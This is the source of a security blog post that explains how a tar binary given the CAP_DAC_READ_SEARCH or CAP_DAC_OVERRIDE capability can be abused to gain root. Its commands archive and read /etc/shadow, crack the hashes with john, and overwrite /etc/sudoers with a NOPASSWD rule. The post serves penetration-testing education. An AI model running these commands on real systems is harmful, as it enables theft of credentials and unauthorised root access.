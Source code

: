 ```yaml
---
layout: post
title: Abusing /tar capabilities to escalate privileges
date: 2023-05-13 00:12 +0000
comments: active
image: /assets/img/Mr10.jpg
categories: [Privilege Escalation]
tags: [Privilege Escalation]
---
```


If ***/tar*** has the ***CAP_DAC_READ_SEARCH*** or ***CAP_DAC_OVERRIDE*** Linux capability set to the binary, it can be abused to escalate privileges to root. 

[Hack Tricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities){:target="_blank"}{:rel="noopener noreferrer"} does a good job at explaining how Linux capabilities works. Simply put, Linux capabilities provide a subset of the available root privileges to a process or binary. This is meant to reduce the attack surface of a system, but if it is not configured correctly it can lead to privilege escalation. 

## What is /tar?
/tar is a Linux binary installed by default on the majority of Nix based operating systems. It stands for '**Tape Archive'** and is used to create, extract and compress archives. You may be familiar with the file formats:

> `foo.tar` - Uncompressed data. Bundles together multiple files into an 'archive' or a 'tarball'. Can also be used to archive a single file.
{: .prompt-info }
> `foo.gz` - Compressed data. Can be used to compress a .tar file.
{: .prompt-info }
> `foo.tar.gz` - A compressed archive file.
{: .prompt-info }

To check if /tar is installed, you can run the following command:
```bash
which tar
```
>`/usr/bin/tar`

## Determining if /tar is vulnerable 
To check what capabilities are set to /tar, you can run the following command:
```bash
getcap /usr/bin/tar
```
If it is vulnerable, you will see one of the following:
>`/usr/bin/tar = cap_dac_read_search+ep`

>`/usr/bin/tar = cap_dac_override+ep`

## Privilege escalation process  
### CAP_DAC_READ_SEARCH Method
***CAP_DAC_READ_SEARCH*** allows binaries to bypass file read, and directory read and execute permissions. This means /tar can be used to access sensitive areas of an operating system as a normal user, such as the /etc/shadow file or the /root directory. To create an archive of the /etc/shadow file, you can run the following command:
```bash
tar -czf /tmp/shadow.tar.gz /etc/shadow
```

The /tar flags are important to understand:
> `-c` : Creates archive 

> `-z` : Compresses an archive with gzip

> `-f` : Designated file name

The file can then be decompressed and printed out to view the hashed passwords:
```bash
gzip -d /tmp/shadow.tar.gz 
cat /tmp/shadow.tar
```
```
root:$6$HbEKQFPH$5qqq6gXYJpsQpk0ZNGD1R/WClLPawMYLuL9Kn.PQE5W4grdRtoopgvgRJZs36A0a7Nwvi4L53B0yiSA.3Hq7k/:19171:0:99999:7::: 
bin:*:18353:0:99999:7:::
apache:!!:19171::::::
```
{: file="shadow.tar" }
Shadow hashes can be cracked with john, using the following command:
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
If the password is not too strong, the password may be cracked out:
![John cracking the Hash](/assets/img/screenshots/john_hash_cracked.png)
_The hashed password was cracked out to 'root'_

If the password is too strong, it may not be able to be cracked out with John. Enumerating the target machine for other sensitive areas which may contain files of interest could still assist with escalating privileges. This could include archiving the /root directory to search for things such as SSH keys, or archiving other applications which may store configuration files and passwords.

### CAP_DAC_OVERRIDE Method
***CAP_DAC_OVERRIDE*** gives the same rights to a binary as ***CAP_DAC_READ_SEARCH***, except it also means you can bypass write permission checks on any file, so you can write to any file. If the /tar binary has this capability set, all you need to do is use /tar to overwrite the /etc/sudoers file.

Begin by creating a file called 'sudoers' that gives sudo rights to your low privilege user:
```bash
echo "mr10 ALL=(ALL) NOPASSWD:ALL" > sudoers
```
Archive and compress the file:
```bash
tar -czf sudoers.tar.gz sudoers
```
Decompress the file:
```bash
gzip -d sudoers.tar.gz
```
Extract the archive file into the /etc directory:
```bash
tar -xf sudoers.tar --directory /etc/
```
Elevate your privileges to root:
```bash
sudo su
```
The same method can be used to update the /etc/passwd file or the /etc/shadow file, allowing you to update root passwords or other administrator accounts.

<br>

Happy Hacking,

Mr10 💎